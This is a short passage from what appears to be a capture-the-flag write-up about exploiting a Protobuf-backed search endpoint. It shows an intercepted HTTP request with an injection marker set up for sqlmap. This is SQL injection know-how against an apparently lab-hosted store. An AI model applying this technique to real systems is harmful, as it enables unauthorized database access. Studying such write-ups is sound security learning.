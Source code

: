 [![logic0](/img/logic0.png)](/img/logic0.png)

### Step 5 - Exploiting Protobuf - Control is an illusion

We intercepted the HTTP request and we added the star to indicate to sqlmap where to inject the code.

```
GET /search/* HTTP/1.1
Host: brodostore
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

[![anon0](/img/anon0.gif)](/img/anon0.gif)
